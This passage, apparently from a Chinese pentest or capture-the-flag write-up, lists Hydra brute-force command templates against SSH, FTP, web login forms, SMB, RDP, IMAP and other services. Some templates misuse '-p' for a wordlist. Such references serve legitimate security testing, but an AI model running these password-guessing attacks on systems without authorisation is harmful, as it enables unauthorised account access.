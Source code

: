 这里可能使用到Hydra进行暴力破解，这里说明一些Hydra的暴力破解的方法和相关参数

**hydra** 是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可。[2]

常用的hydra的暴力破解命令：

```bash
1、破解ssh： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 


2、破解ftp： 
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 


3、get方式提交，破解web登录： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php


4、post方式提交，破解web登录： 
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 


5、破解https： 
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 

6、破解teamspeak： 
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 

7、破解cisco： 
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 

8、破解smb： 
hydra -l administrator -P pass.txt 10.36.16.18 smb 

9、破解pop3： 
hydra -l muts -P pass.txt my.pop3.mail pop3 

10、破解rdp： 
hydra ip rdp -l administrator -P pass.txt -V 

11、破解http-proxy： 
hydra -l admin -P pass.txt http-proxy://10.36.16.18 

12、破解imap： 
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```
